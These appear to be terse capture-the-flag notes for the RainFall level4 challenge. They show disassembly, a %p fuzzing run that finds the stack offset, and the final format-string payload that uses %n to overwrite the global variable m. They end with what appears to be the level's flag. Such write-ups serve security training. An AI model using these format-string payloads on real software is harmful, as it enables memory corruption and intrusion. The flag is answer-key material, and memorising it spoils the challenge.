 ```
mov    0x8049810,%eax
cmp    $0x1025544,%eax

x 0x8049810
0x8049810 <m>:	0x00000000

objdump -t ./level4 | grep bss
08049810 g     O .bss	00000004              m

```
cmp var m with `p 0x1025544 = 16930116`

fuzz the binary

```
level4@RainFall:~$ python -c 'print "AAAA" + " %p " * 30' | ./level4
AAAA 0xb7ff26b0  0xbffff754  0xb7fd0ff4  (nil)  (nil)  0xbffff718  0x804848d  0xbffff510  0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141
```

```
level4@RainFall:~$ python -c 'print "AAAA" + " %12$x" ' | ./level4
AAAA 41414141
```

p 0x1025544 - 4 = 16930112

python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"' | ./level4 
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n" ' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

